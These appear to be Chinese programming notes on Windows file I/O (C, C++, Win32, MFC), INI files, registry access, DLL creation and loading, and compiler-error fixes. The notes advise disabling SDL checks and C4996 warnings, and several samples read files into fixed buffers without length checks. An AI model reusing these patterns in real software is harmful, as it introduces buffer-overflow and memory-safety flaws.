1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 void CMFCFileDlg::OnBnClickedWriteFile () FILE* pFile = fopen ("1.txt" , "w" ); if (pFile == NULL ) { MessageBox ("文件打开失败!" ); return ; } char szBuf[1024 ] = "C语言操作" ; int iLen = strlen (szBuf) + 1 ; if (fwrite (szBuf, 1 , iLen, pFile) <= 0 ) { MessageBox ("文件写入失败!" ); return ; } fclose (pFile); } void CMFCFileDlg::OnBnClickedReadFile2 () FILE* pFile = fopen ("1.txt" , "r" ); if (pFile == NULL ) { MessageBox ("文件打开失败!" ); return ; } char szBuf[1024 ] = "" ; fseek (pFile, 0 , SEEK_END); int iFileLen = ftell (pFile); fseek (pFile, 0 , SEEK_SET); int iLen = fread (szBuf, 1 , iFileLen, pFile); fclose (pFile); MessageBox (szBuf); }
9.1.2 C++操作文件 C++文件流是用于进行文件读写操作的工具，它提供了一种能够简单、高效地与外部文件进行交互的方式。C++中文件流主要通过ofstream和ifstream来实现对文件的写入和读取。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 #include <fstream> std::ofstream outputFile; outputFile.open ("example.txt" ); if (outputFile.is_open ()) { outputFile << "Hello, World!" << std::endl; outputFile << "This is a sample text." << std::endl; } else { std::cout << "Failed to open the file." << std::endl; } outputFile.close ();
1 2 3 4 5 6 7 8 9 void open (const char *filename, ios::openmode mode)
📋C++读写示例：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 void CMFCFileDlg::OnBnClickedWriteFile2 () std::ofstream ofs ("2.txt" ) ; char szBuf[1024 ] = "C++语言操作" ; ofs.write (szBuf, strlen (szBuf)); ofs.close (); } void CMFCFileDlg::OnBnClickedReadFile2 () std::ifstream ifs ("2.txt" ) ; char szBuf[1024 ] = "" ; ifs.read (szBuf, 1024 ); ifs.close (); MessageBox (szBuf); }
9.1.3 Win32 API CreateFile：文件、管道、油槽、通信资源、磁盘设备、控制台、目录
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 HANDLE CreateFileW ( [in] LPCWSTR lpFileName, [in] DWORD dwDesiredAccess, [in] DWORD dwShareMode, [in, optional] LPSECURITY_ATTRIBUTES lpSecurityAttributes, [in] DWORD dwCreationDisposition, [in] DWORD dwFlagsAndAttributes, [in, optional] HANDLE hTemplateFile ) #define GENERIC_READ (0x80000000L) #define GENERIC_WRITE (0x40000000L) #define GENERIC_EXECUTE (0x20000000L) #define GENERIC_ALL (0x10000000L) BOOL WriteFile ( HANDLE hFile, LPCVOID lpBuffer, DWORD nNumberOfBytesToWrite, LPDWORD lpNumberOfBytesWritten, LPOVERLAPPED lpOverlapped ) WINBASEAPI BOOL WINAPI WriteFile ( _In_ HANDLE hFile, _In_reads_bytes_opt_(nNumberOfBytesToWrite) LPCVOID lpBuffer, _In_ DWORD nNumberOfBytesToWrite, _Out_opt_ LPDWORD lpNumberOfBytesWritten, _Inout_opt_ LPOVERLAPPED lpOverlapped )
📋Windows API读写示例：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 void CMFCFileDlg::OnBnClickedWriteFileWin () HANDLE hFile = CreateFile ("3.txt" , GENERIC_WRITE, 0 , NULL , OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL ); if (hFile == INVALID_HANDLE_VALUE) { TRACE ("### error = %d ####" , GetLastError ()); MessageBox ("创建文件对象失败!" ); return ; } char szBuf[1024 ] = "Win32操作文件---" ; DWORD dwWrite; WriteFile (hFile, szBuf, strlen (szBuf), &dwWrite, NULL ); TRACE ("### dwWrite = %d ####" , dwWrite); CloseHandle (hFile); } void CMFCFileDlg::OnBnClickedReadFileWin () HANDLE hFile = CreateFile ("3.txt" , GENERIC_READ, 0 , NULL , OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL ); if (hFile == INVALID_HANDLE_VALUE) { TRACE ("### error = %d ####" , GetLastError ()); MessageBox ("创建文件对象失败!" ); return ; } DWORD dwRead; char szBuf[1024 ] = "" ; ReadFile (hFile, szBuf, 1024 , &dwRead, NULL ); TRACE ("### dwRead = %d ####" , dwRead); CloseHandle (hFile); MessageBox (szBuf); }
9.1.4 MFC操作文件 📋MFC读写示例：【类似C++】
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 void CMFCFileDlg::OnBnClickedWriteFileMfc () CFile file ("4.txt" , CFile::modeCreate | CFile::modeWrite) ; char szBuf[1024 ] = "MFC文件操作" ; file.Write (szBuf, strlen (szBuf)); file.Close (); } void CMFCFileDlg::OnBnClickedReadFileMfc () CFileDialog fileDlg (TRUE) ; fileDlg.m_ofn.lpstrTitle = "Test" ; fileDlg.m_ofn.lpstrFilter = "Text Files(*.txt)\0*.txt\0ALL Files(*.*)\0*.*\0\0" ; DWORD dwFileLen; if (IDOK == fileDlg.DoModal ()) { CFile file (fileDlg.GetFileName(), CFile::modeRead) ; dwFileLen = file.GetLength (); char szBuf[1024 ] = "" ; file.Read (szBuf, dwFileLen); file.Close (); MessageBox (szBuf); } }

9.2 配置文件的访问与读写 ini的配置文件有一定的格式，如键值对。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 BOOL WritePrivateProfileStringW ( [in] LPCWSTR lpAppName, [in] LPCWSTR lpKeyName, [in] LPCWSTR lpString, [in] LPCWSTR lpFileName ) DWORD WINAPI GetPrivateProfileStringW ( _In_opt_ LPCWSTR lpAppName, _In_opt_ LPCWSTR lpKeyName, _In_opt_ LPCWSTR lpDefault, _Out_writes_to_opt_(nSize, return + 1 ) LPWSTR lpReturnedString, _In_ DWORD nSize, _In_opt_ LPCWSTR lpFileName )
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 void CMFCFileDlg::OnBnClickedWriteFileIni () char szPath[MAX_PATH] = { 0 }; GetCurrentDirectory (MAX_PATH, szPath); CString szPathFile; szPathFile.Format ("%s\\Test.ini" ,szPath); WritePrivateProfileString ("国家" ,"中国" ,"ZH" , szPathFile); WritePrivateProfileString ("国家" , "美国" , "USA" , szPathFile); WritePrivateProfileString ("国家" , "俄罗斯" , "RUS" , szPathFile); WritePrivateProfileString ("地区" , "天津" , "T" , szPathFile); } void CMFCFileDlg::OnBnClickedReadFileIni () char szPath[MAX_PATH] = { 0 }; GetCurrentDirectory (MAX_PATH, szPath); CString szPathFile; szPathFile.Format ("%s\\Test.ini" , szPath); char str1[1024 ] = { 0 }; char str2[1024 ] = { 0 }; char str3[1024 ] = { 0 }; char str4[1024 ] = { 0 }; DWORD dwNum1 = GetPrivateProfileString ("国家" , "中国" , NULL , str1,1024 ,szPathFile); DWORD dwNum2 = GetPrivateProfileString ("国家" , "美国" , NULL , str2, 1024 , szPathFile); DWORD dwNum3 = GetPrivateProfileString ("国家" , "俄罗斯" , NULL , str3, 1024 , szPathFile); DWORD dwNum4 = GetPrivateProfileString ("地区" , "天津" , NULL , str4, 1024 , szPathFile); CString strShow; strShow.Format ("中国 = %s\n美国 = %s\n俄罗斯 = %s\n天津 = %s" , str1, str2, str3, str4); MessageBox (strShow); } void CMyMFCFileView::OnReadConfig () WCHAR strPath[MAX_PATH] = { 0 }; WCHAR strTitle[MAX_PATH] = { 0 }; WCHAR strCh[MAX_PATH] = { 0 }; WCHAR strSh[MAX_PATH] = { 0 }; GetCurrentDirectoryW (MAX_PATH, strPath); TRACE ("##strPath = %ls" , strPath); CString strFilePath; strFilePath.Format (L"%ls//Test.ini" , strPath); DWORD dwNum1 = GetPrivateProfileStringW (L"metadata" , L"title" ,NULL , strTitle, MAX_PATH, strFilePath); DWORD dwNum2 = GetPrivateProfileStringW (L"声母" , L"ch" , NULL , strCh, MAX_PATH, strFilePath); DWORD dwNum3 = GetPrivateProfileStringW (L"声母" , L"sh" , NULL , strSh, MAX_PATH, strFilePath); TRACE ("####dwNum1 = %d, dwNum2 = %d, dwNum3 = %d" , dwNum1, dwNum2, dwNum3); USES_CONVERSION; char * szTitle = W2A (strTitle); char * szCh= W2A (strCh); char * szSh = W2A (strSh); TRACE ("####strTitle = %s, strCh = %s, strSh = %s" , szTitle, szCh, szSh); }
9.3 注册表编程 9.3.1 注册表API 注册表操作需要操作系统权限，需要退出VS，再使用管理员权限打开
注册表：Win+ R组合键 ：regedit
注册表存储在二进制文件里面，win32 API提供了大量函数来操作注册表。常用的注册表API如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 WINADVAPI LSTATUS APIENTRY RegCreateKeyW ( _In_ HKEY hKey, _In_opt_ LPCWSTR lpSubKey, _Out_ PHKEY phkResult ); RegOpenKeyW ( _In_ HKEY hKey, _In_opt_ LPCWSTR lpSubKey, _Out_ PHKEY phkResult ); RegSetValueW ( _In_ HKEY hKey, _In_opt_ LPCWSTR lpSubKey, _In_ DWORD dwType, _In_reads_bytes_opt_(cbData) LPCWSTR lpData, _In_ DWORD cbData ); RegSetValueExW ( _In_ HKEY hKey, _In_opt_ LPCWSTR lpValueName, _Reserved_ DWORD Reserved, _In_ DWORD dwType, _In_reads_bytes_opt_(cbData) CONST BYTE * lpData, _In_ DWORD cbData ); LSTATUS RegQueryValueExA ( [in] HKEY hKey, [in, optional] LPCSTR lpValueName, LPDWORD lpReserved, [out, optional] LPDWORD lpType, [out, optional] LPBYTE lpData, [in, out, optional] LPDWORD lpcbData ) LSTATUS RegCloseKey ( [in] HKEY hKey )
9.3.2 注册表读写 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 void CMFCFileDlg::OnBnClickedWriteFileReg () HKEY hKey; DWORD dwWeight=56 ; DWORD dwRet = RegCreateKey (HKEY_LOCAL_MACHINE,"SOFTWARE\\MYWEIGHT\\admin" ,&hKey); if (dwRet != ERROR_SUCCESS) { MessageBox ("创建注册表失败" ); return ; } dwRet = RegSetValueEx (hKey, "weight" , NULL , REG_DWORD, (const BYTE*)&dwWeight, sizeof (DWORD)); if (dwRet != ERROR_SUCCESS) { MessageBox ("写注册表失败" ); return ; } RegCloseKey (hKey); } void CMFCFileDlg::OnBnClickedReadFileReg () HKEY hKey; DWORD dwRet = ::RegOpenKey (HKEY_LOCAL_MACHINE, "SOFTWARE\\MYWEIGHT\\admin" , &hKey); if (dwRet != ERROR_SUCCESS) { MessageBox ("打开注册表失败" ); return ; } DWORD dwWeight; DWORD dwType; DWORD dwSize; dwRet = ::RegQueryValueEx (hKey, "weight" , NULL , &dwType, (BYTE*) & dwWeight, &dwSize); if (dwRet != ERROR_SUCCESS) { MessageBox ("读注册表失败" ); return ; } ::RegCloseKey (hKey); CString strShow; strShow.Format ("Weight = %d" , dwWeight); MessageBox (strShow); }
9.4 文件操作的企业级应用 调试日志【debugview 文件日志：警告日志 错误日志】 5星 视频存储 4星 文件传输【CFile 与socket结合使用】 4星 C语言和MFC的文件操作用途广泛；win32 API少用 ifstream ofstream 3星 配置文件【windows】 5星 注册表的操作【病毒 逆向 操作注册表】5星 十 动态链接库 10.1 DLL技术的概念和意义 动态链接库技术【Dynamic-link library，DLL】是模块化开发中的一种非常重要的技术，主要特点是动态的完成库的链接与使用。
整个Windows操作系统使用了大量的动态链接库，如：
gdi32.dl 绘图 user32.dll 用户界面有关的函数 kernel32.dll 内存，线程，进程 d3d9x_11.dll绘图 静态库和动态库的区别：
静态链接库在基础课提到过【函数提高3.8：封装自己的SDK】，是程序编译时完成链接，且库的二进制代码包含在项目代码中； 而动态链接库，用于模块化编程，是在程序运行时完成链接。即在代码运行时，动态加载动态库。 DLL技术的意义：
模块化 方便更新送代：只需要变更动态库版本 提高代码共享与利用率 节约内存：动态库不一定被调用；且动态库被调用多次时，内存中只存在一份 本地化支持：相当于切换不同的动态链接库，如中文包和英文包 跨语言编程：如与JAVA结合 解决版本问题：在不同操作系统下，调用相应版本的动态库即可 特别作用：在制作外挂时，强制给程序新增功能，即强制链接动态库 10.2 创建一个动态链接库 VS新建项目，在【C++ | Windows】下，有动态链接库的选项，创建项目。本质上就一个核心文件dllmain.cpp：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 #include "pch.h" BOOL APIENTRY DllMain ( HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved ) switch (ul_reason_for_call) { case DLL_PROCESS_ATTACH: case DLL_THREAD_ATTACH: case DLL_THREAD_DETACH: case DLL_PROCESS_DETACH: break ; } return TRUE; } _declspec(dllexport) int ave (int a, int b) return (a + b) / 2 ; } extern "C" _declspec(dllexport) int ave1 (int a, int b) return (a + b) / 2 ; } extern "C" _declspec(dllexport) int _stdcall ave2 (int a, int b) return (a + b) / 2 ; }
其他文件：
1 2 3 4 5 6 7 8 9 10 11 #pragma once _declspec(dllexport) int ave (int a, int b) LIBRARY EXPORTS ave
10.3 调用动态链接库 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 #include <iostream> #include <Windows.h> typedef int (*FAVE_1) (int a, int b) int main () HMODULE hMod = LoadLibrary (L"WinDLL.exe" ); if (hMod) { std::cout << "模块加载成功" << std::endl; } else { std::cout << "模块加载失败" << std::endl; return -1 ; } FAVE_1 func1 = (FAVE_1)GetProcAddress (hMod, "ave1" ); if (func1) { std::cout << "函数加载成功" << std::endl; std::cout << func1 (2 , 6 ) << std::endl; } FreeLibrary (hMod); system ("pause" ); return 0 ; }
十一 报错处理、调试方法及其他 11.1 C4996 遇到过的C4996：
1 2 3 4 error C4996: 'localtime' : This function or variable may be unsafe. Consider using localtime_s instead. To disable deprecation, use _CRT_SECURE_NO_WARNINGS. See online help for details. error C4996: 'sprintf' : This function or variable may be unsafe. Consider using sprintf_s instead. To disable deprecation, use _CRT_SECURE_NO_WARNINGS. See online help for details.
解决：头文件添加#pragma warning(disable:4996)就可以解决。参考
原因分析：
创建项目时，会有一个勾选项，叫做“安全开发生命周期（SDL）检查”，这个东西是微软在VS2012新推出的东西，为了是能更好的监管开发者的代码安全，如果勾选上这一项，那么他将严格按照SDL的规则编译代码，会有一些以前常用的函数无法通过编译，比如在VS2010中的scanf是warning那么在VS2012中就是error了。
有一种说法：出现error C4996的问题，是因为用的是windows系统，在linux下不会报错。
解决方案：
头文件添加 #pragma warning(disable:4996) 在程序的首行添加 #define _CRT_SECURE_NO_WARNINGS【只能放在程序首行】 在项目处右键点击找到属性，点击配置属性，【C/C++ | SDL检查： 改成否】 项目 | 项目属性 | C/C++ | 预处理器定义，添加：_CRT_NONSTDC_NO_DEPRECATE和_CRT_SECURE_NO_WARNINGS 项目 | 项目属性 | C/C++ | 所有选项：禁用特定警告【填写4996】 以上4种方案，亲测全部有效（win7、vs2015）
11.2 UDP服务端bind错误的调试方法 针对3.4.2节中的服务端bind错误，调试方法如下
首先修改代码，打印错误号：【WSAGetLastError()函数获取错误号】【得到错误号10048】 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 #include <stdio.h> #include <iostream> #include <WinSock2.h> #include <time.h> #pragma comment(lib,"ws2_32.lib" ) int getCurrentTimeStr (char * strtime) void ErrorHandling (const char * message, int ERRNO) int main () printf ("UDP Server\n" ); WSADATA wsaData; if (WSAStartup (MAKEWORD (1 , 1 ), &wsaData) != 0 ) { ErrorHandling ("WSAStartup() error!" , WSAGetLastError ()); } if (LOBYTE (wsaData.wVersion) != 1 || HIBYTE (wsaData.wVersion) != 1 ) { WSACleanup (); return -1 ; } char ch[64 ] = { 0 }; SOCKET sockServ = socket (AF_INET, SOCK_DGRAM, 0 ); if (sockServ == INVALID_SOCKET) { ErrorHandling ("Server socket Error!" , WSAGetLastError ()); return -1 ; } SOCKADDR_IN addrServ, addrClient; memset (&addrServ, 0 , sizeof (addrServ)); memset (&addrClient, 0 , sizeof (addrClient)); int szAddrCnt = sizeof (addrClient); addrServ.sin_family = AF_INET; addrServ.sin_addr.S_un.S_addr = htonl (INADDR_ANY); addrServ.sin_port = htons (6001 ); int ret = bind (sockServ, (sockaddr*)&addrServ, sizeof (addrServ)); if (SOCKET_ERROR == ret) { ErrorHandling ("Bind ERROR" , WSAGetLastError ()); return -1 ; } char recvBuf[100 ] = { 0 }; char sendBuf[100 ] = { 0 }; while (true ) { printf ("Wait Message:\n" ); recvfrom (sockServ, recvBuf, sizeof (recvBuf), 0 , (sockaddr*)&addrClient, &szAddrCnt); std::cout << recvBuf << std::endl; sprintf_s (sendBuf, sizeof (sendBuf), "Ack: %s\n" , recvBuf); sendto (sockServ, sendBuf, strlen (sendBuf) + 1 , 0 , (sockaddr*)&addrClient, szAddrCnt); } closesocket (sockServ); system ("pause" ); return 0 ; } #pragma warning (disable:4996) int getCurrentTimeStr (char * strtime) time_t now = time (NULL ); tm* ltm = localtime (&now); sprintf (strtime, "%2d:%2d:%2d" , ltm->tm_hour, ltm->tm_min, ltm->tm_sec); return 0 ; } void ErrorHandling (const char * message, int ERRNO) fputs (message, stderr); fputc ('\n' , stderr); char ch[64 ]; getCurrentTimeStr (ch); printf ("Error num = %d, Error time %s\n" , ERRNO, ch); system ("pause" ); exit (-1 ); }
netstat 命令用于显示各种网络相关信息，如网络连接，路由表，接口状态 (Interface Statistics)，masquerade 连接，多播成员 (Multicast Memberships) 等等。
验证：在任务管理器中寻找PID=6696的进程

11.3 程序内获取命令行参数出错 windows下，VS调试命令行程序，可以在【属性 | 调试 | 命令行参数】处设置传入的命令行参数
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 #include <stdio.h> #include <iostream> int main (int argc, char * argv) printf ("start:\n" ); if (argc < 2 ) { puts ("Must input two args[Start in CMD]\n" ); system ("pause" ); exit (-1 ); } else { std::cout << "NAME:" << argv[1 ] << std::endl; } printf ("Client begin:\n" ); system ("pause" ); return 0 ; }
解决 ：修改char* argv 为指针数组
argc（argument count）：表示命令行参数的数量，包括程序名称本身。argv（argument vector）：是一个指向指针数组的指针，其中每个指针指向一个表示命令行参数的C字符串。1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 #include <stdio.h> #include <iostream> int main (int argc, char * argv[]) printf ("start:\n" ); if (argc < 2 ) { puts ("Must input two args[Start in CMD]\n" ); system ("pause" ); exit (-1 ); } else { std::cout << "NAME:" << argv[1 ] << std::endl; } printf ("Client begin:\n" ); system ("pause" ); return 0 ; }
因此，这是一个语法错误。查阅Microsoft文档，可知 main 函数的定义：
1 2 3 4 int main () int main (int argc, char *argv[])
如果将源代码设计为使用 Unicode 宽 character，则可以使用特定于 Microsoft 的 wmain 入口点，即宽 character 版的 main。 下面是 wmain 的有效声明语法：
1 2 int wmain () int wmain (int argc, wchar_t *argv[])
还可以使用特定于 Microsoft 的 _tmain，它是 tchar.h_UNICODE，否则 _tmain 解析为 main。 在该示例中，_tmain 将解析为 wmain。 对于需要分别生成窄版和宽版 character 集的代码来说，_tmain 宏和以 _t 开头的其他宏非常有用。 有关详细信息，请参阅使用一般文本映射 。
11.4 windows.h头文件的首字母大写 在C++中有这样两个头文件就像双胞胎一样，它们分别是
1 2 #include <Windows.h> #include <windows.h>
二者在功能上没有区别，且二者库中的函数都是相同的
二者在用途上有区别：
控制台程序中我们常用windows.h，而在MFC等窗口或SDK程序中，我们常用Windows.h 这是因为Linux系统对文件的大小写比较敏感，而Windows相对而言没有那么严格。 11.5 Win API 中的A/W版本函数 在 Win32 API 中，函数名后的 “A” 和 “W” 后缀代表了该函数的 ANSI 和 Unicode 版本。在早期的 Windows 系统中，ANSI 版本是使用单字节字符集（主要是 ASCII），而 Unicode 版本支持更广泛的双字节字符集，包括多种语言字符。
“A” 后缀：代表 ANSI 版本。这个版本的函数使用单字节字符集，主要是 ASCII。例如，WNDCLASSA 是一个处理 ANSI 窗口类的结构。 “W” 后缀：代表 Unicode 版本。这个版本的函数使用双字节字符集，支持多种语言字符。例如，WNDCLASSW 是一个处理 Unicode 窗口类的结构。 在现代的 Windows 系统中，推荐总是使用 Unicode 版本，因为它支持更广泛的字符集，并且在很多情况下，使用 Unicode 版本的函数不需要额外的工作。然而，如果你在处理的都是 ASCII 字符，并且出于某种原因需要节省内存或处理速度，那么可以使用 ANSI 版本。